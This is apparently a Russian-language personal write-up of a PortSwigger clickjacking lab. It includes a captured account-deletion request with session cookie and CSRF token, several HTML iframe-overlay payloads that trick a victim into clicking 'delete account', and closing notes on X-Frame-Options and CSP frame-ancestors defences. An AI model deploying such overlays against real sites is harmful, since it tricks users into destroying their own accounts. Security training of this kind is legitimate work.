

лаба https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected

задание :  нужно добаваить поверх стр кнопку "klick" с функцией удаления аккаунта, 

-----

вот запрос который удаляет аккаунт одной кнопкой
```http
POST /my-account/delete HTTP/2
Host: 0a58008004d3ef9880d50dfc007800ea.web-security-academy.net
Cookie: session=LulNa4a1PDDPEIH830VR6g729syTtmta
Content-Length: 37
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a58008004d3ef9880d50dfc007800ea.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a58008004d3ef9880d50dfc007800ea.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=Qjp8c9LM5iyiIQbtkpt3PhMh8M4u81Fv
```

++ стоит csrf защита

--------

попрбовал через гет сделать 
`GET /my-account/delete?csrf=Qjp8c9LM5iyiIQbtkpt3PhMh8M4u81Fv HTTP/2` - сработало! красота

---

вот URL delete аккаунта
`https://0a58008004d3ef9880d50dfc007800ea.web-security-academy.net/my-account/delete`

-----

можно настроить как угодно..

```html

<head>
	<style>
		body {
			margin: 0;
			padding: 0;
			height: 100vh;
			overflow: hidden;
		}
		#target_website {
			position: absolute;
			width: 100vw;
			height: 100vh;
			opacity: 0.6;
			z-index: 2;
			top: 0;
			left: 0;
			border: none;
		}
		#decoy_website {
			position: absolute;
			width: 200px;
			height: 100px;
			opacity: 0.5;
			z-index: 999;
			top: 50px;
			left: 100px;
			background: green;
			color: white;
			font-size: 24px;
			text-align: center;
			line-height: 100px;
			cursor: pointer;
		}
	</style>
</head>
<body>
	<div id="decoy_website" onclick="window.location.href='https://0a58008004d3ef9880d50dfc007800ea.web-security-academy.net/my-account/delete'">
		click
	</div>
	<iframe id="target_website" 
		src="https://0a58008004d3ef9880d50dfc007800ea.web-security-academy.net/my-account">
	</iframe>
</body>
```

тут кнопка поверх сайта  - нажимает - аккаунт стирается, проверил 
отправил жертве = но лаба не решается

--------

значит можно еще проще сделать

тупо один клик,,, первый мой эксплойт был гениальнее, чем тот, что ниже - и требуется в решении

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.4;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 300px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>click</div>
<iframe src="https://0a58008004d3ef9880d50dfc007800ea.web-security-academy.net/my-account"></iframe>
```
код выше - делает это: нужно теперь подошгать клик ниже, вот и все




так как мой ак уже удален - то не могу зайти на свой ак, но кнопка удалить там находится по разметке чуть ниже текущей кнопки логин

-------

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 500px;
        opacity: 0.4;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 470px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>click</div>
<iframe src="https://0a58008004d3ef9880d50dfc007800ea.web-security-academy.net/my-account"></iframe>
```

------

короче хз , в какой момент лаба выполнилась, так как я вернулся подставить новый скрипт и не отправлял жертве ничего - но лаба решила выполниться

но все равно и так все предельно ясно...

-----

## защита

чтобы защититься от кликджекинга нужно запретить загрузку сайта в iframe с посторонних ресурсов. для этого используются два заголовка:  

==X-Frame-Options: deny== 
или
==X-Frame-Options: sameorigin== 

запрещает фрейминг совсем или разрешает только с того же домена  


==Content-Security-Policy== с директивой 
frame-ancestors 'none' 
или frame-ancestors 'self'  -- - - -  делает то же самое но более гибко  

также можно использовать ==frame busting== скрипты на javascript но они легче обходятся, но лучше полагаться на серверные заголовки

---------